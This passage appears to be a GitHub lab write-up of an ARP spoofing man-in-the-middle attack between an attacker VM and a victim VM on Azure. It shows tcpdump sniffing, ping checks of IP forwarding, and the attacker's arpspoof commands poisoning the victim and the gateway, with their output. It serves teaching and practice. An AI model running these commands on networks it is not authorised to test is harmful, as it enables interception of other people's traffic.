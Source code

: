 - Now the Kali VM is in the middle, and can sniff traffic with:
  ```
  sudo tcpdump -i eth0
  ```
##
#### While Running the Attack...
  - On a terminal connected to the Ubuntu VM, try pinging both the Kali VM and Google's DNS (8.8.8.8). This helps generate ARP traffic that can be captured and analyzed later.
  
    ```
    ping 10.0.1.4 -c 2
    ```
    ```
    ping 8.8.8.8 -c 2
    ```
  - These pings also help confirm that IP forwarding on Kali is working correctly. If the Ubuntu VM is still able to reach external addresses like 8.8.8.8, it means Kali is successfully forwarding packets between the victim and the gateway. 
  

    ```
    azureuser@ubuntu-vm:~$ ping 10.0.1.4 -c 2
    PING 10.0.1.4 (10.0.1.4) 56(84) bytes of data.
    64 bytes from 10.0.1.4: icmp_seq=1 ttl=64 time=1.71 ms
    64 bytes from 10.0.1.4: icmp_seq=2 ttl=64 time=0.972 ms
    --- 10.0.1.4 ping statistics ---
    2 packets transmitted, 2 received, 0% packet loss, time 1002ms
    rtt min/avg/max/mdev = 0.972/1.340/1.709/0.368 ms
    
    azureuser@ubuntu-vm:~$ ping 8.8.8.8 -c 2
    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=1.93 ms
    64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=1.84 ms
    --- 8.8.8.8 ping statistics ---
    2 packets transmitted, 2 received, 0% packet loss, time 1002ms
    rtt min/avg/max/mdev = 1.842/1.884/1.926/0.042 ms
    ```


##
### 📊 Results and Analysis After an ARP Spoofing

- Once you’ve finished generating traffic (e.g., pinging), stop `tcpdump` with `Ctrl + C`.

### Attacker's Perspective:

  **ARP Spoofing Output:**
  
  ```
  ┌──(azureuser㉿kali)-[~]
  └─$ sudo arpspoof -i eth0 -t 10.0.1.5 10.0.1.1
  sudo arpspoof -i eth0 -t 10.0.1.1 10.0.1.5
  
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  ...

  ```
  